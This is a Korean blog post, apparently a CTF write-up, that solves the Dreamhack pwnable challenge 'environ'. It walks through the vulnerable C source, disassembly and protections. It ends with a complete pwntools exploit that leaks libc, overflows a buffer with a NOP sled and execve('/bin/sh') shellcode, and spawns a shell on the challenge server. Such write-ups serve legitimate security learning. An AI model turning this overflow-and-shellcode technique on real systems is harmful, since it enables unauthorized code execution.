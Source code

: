 ```yaml
---
published: true
image: /img
layout: post
title: \\[Dreamhack\\] 시스템 해킹 environ
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-20 17:30
---
```


오랜만에 풀어보는 시스템 해킹이다.

environ을 간단히 설명해보면 프로그램이 동작할 떄 시스템의 환경변수를 참조해야할 경우가 있다. 이때 사용하는 것이 environ 포인터인데 이는 시스템의 환경변수를 가리키며 로더의 초기화 함수에 의해 초기화 된다.

이번 문제의 코드를 살펴보면 다음과 같다
```c
int main()
{
    char buf[16];
    size_t size;
    long value;
    void (*jump)();

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    printf("Data: ");
    read(0, buf, size);

    printf("*jmp=");
    scanf("%ld", &value);

    jump = *(long *)value;
    jump();

    return 0;
}
```

stdout의 주소값을 출력해주고 입력받은 사이즈 만큼 buf에 쓰고 value의 주소를 정해줘 해당 주소로 점프해 어셈블리 코드를 실행하게 된다. 

바이너리에 걸린 보안 기술을 보면 다음과 같다
```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
stack canary가 적용되어 있지만 이를 체크하기 전에 쉘 코드가 실행되어 크게 신경쓸 부분은 아닌것 같다.

우선 해당 바이너리를 익스하기 위해 stdout주소에서 stdout offset의 차를 구해 libc base주소를 구한다. 이후 해당 libc base주소에 environ offset을 더해 바이너리의 environ주소를 구한다. 다음으로 buf를 오버플로우 시켜 environ 영역에 쉘 코드를 삽입하고 해당 주소로 점프하면 쉘을 구할 수 있다.

main함수의 어셈블리를 살펴보자
```c
0x000000000040089a <+0>:     push   rbp
   0x000000000040089b <+1>:     mov    rbp,rsp
   0x000000000040089e <+4>:     sub    rsp,0x40
   0x00000000004008a2 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x00000000004008ab <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008af <+21>:    xor    eax,eax
   0x00000000004008b1 <+23>:    mov    eax,0x0
   0x00000000004008b6 <+28>:    call   0x40083e <initialize>
   0x00000000004008bb <+33>:    mov    rax,QWORD PTR [rip+0x2007be]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c2 <+40>:    mov    rsi,rax
   0x00000000004008c5 <+43>:    mov    edi,0x400a0d
   0x00000000004008ca <+48>:    mov    eax,0x0
   0x00000000004008cf <+53>:    call   0x4006a0 <printf@plt>
   0x00000000004008d4 <+58>:    mov    edi,0x400a19
   0x00000000004008d9 <+63>:    mov    eax,0x0
   0x00000000004008de <+68>:    call   0x4006a0 <printf@plt>
   0x00000000004008e3 <+73>:    lea    rax,[rbp-0x38]
   0x00000000004008e7 <+77>:    mov    rsi,rax
   0x00000000004008ea <+80>:    mov    edi,0x400a20
   0x00000000004008ef <+85>:    mov    eax,0x0
   0x00000000004008f4 <+90>:    call   0x400700 <__isoc99_scanf@plt>
   0x00000000004008f9 <+95>:    mov    edi,0x400a24
   0x00000000004008fe <+100>:   mov    eax,0x0
   0x0000000000400903 <+105>:   call   0x4006a0 <printf@plt>
   0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x000000000040090c <+114>:   lea    rax,[rbp-0x20]
   0x0000000000400910 <+118>:   mov    rsi,rax
   0x0000000000400913 <+121>:   mov    edi,0x0
   0x0000000000400918 <+126>:   call   0x4006c0 <read@plt>
   0x000000000040091d <+131>:   mov    edi,0x400a2b
   0x0000000000400922 <+136>:   mov    eax,0x0
   0x0000000000400927 <+141>:   call   0x4006a0 <printf@plt>
   0x000000000040092c <+146>:   lea    rax,[rbp-0x30]
   0x0000000000400930 <+150>:   mov    rsi,rax
   0x0000000000400933 <+153>:   mov    edi,0x400a20
   0x0000000000400938 <+158>:   mov    eax,0x0
   0x000000000040093d <+163>:   call   0x400700 <__isoc99_scanf@plt>
   0x0000000000400942 <+168>:   mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400946 <+172>:   mov    rax,QWORD PTR [rax]
   0x0000000000400949 <+175>:   mov    QWORD PTR [rbp-0x28],rax
   0x000000000040094d <+179>:   mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000400951 <+183>:   mov    eax,0x0
   0x0000000000400956 <+188>:   call   rdx
   0x0000000000400958 <+190>:   mov    eax,0x0
   0x000000000040095d <+195>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000400961 <+199>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000040096a <+208>:   je     0x400971 <main+215>
   0x000000000040096c <+210>:   call   0x400690 <__stack_chk_fail@plt>
   0x0000000000400971 <+215>:   leave  
   0x0000000000400972 <+216>:   ret 
```

stdout을 통해 libc base 주소를 구하는 것은 어렵지 않다.
pwntools을 이용하면 된다. 출력된 주소 - libc.symbols["_IO_2_1_stdout_"]를 이용하면 쉽게 구할 수 있다. 가장 중요한 것은 buf의 위치와 environ 위치의 offset을 구해야 하는데 gdb 상에서 살펴보면 read 함수에서 받아 저장할 위치는 rbp-0x20이라고 되어있다.

```c
0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
```

이부분의 주소값과 environ의 주소값의 차를 구하고 쉘코드의 길이를 더한 만큼 오버플로우 시켜야 한다.

그러면 buf와 environ의 offset 만큼의 nop코드로 채운 후 쉘코드를 삽입하고 이로 건너뛰는 시나리오가 될 것이다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 17150);
libc = ELF("./libc.so.6")
#c = process("./environ")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

shell = asm(shellcraft.execve("/bin/sh"))

c.recvuntil(b"stdout: ")
stdout = int(str(c.recvline()[:-1]).replace("b", "").replace("'", ''), 16)
print(f"stdout : {hex(stdout)}")

stdoutOffset = libc.symbols["_IO_2_1_stdout_"]
libcBase = stdout-stdoutOffset
print(f"libc base : {hex(libcBase)}")
print(f"libc offset : {hex(stdoutOffset)}")

envAddr = libcBase+libc.symbols["environ"]
print(f"environ addr : {hex(envAddr)}")
bufToenvOffset = 0x148
print(f"Buffer to environ addr offset : {hex(bufToenvOffset)}")

c.recvuntil(b"Size: ")
c.sendline(str(bufToenvOffset+len(shell)))

c.recvuntil(b"Data: ")
c.sendline(b"\x90"*bufToenvOffset+shell)

c.recvuntil(b"*jmp=")
c.sendline(str(envAddr))

c.interactive()
```

위 코드를 통해 익스플로잇이 가능하다. 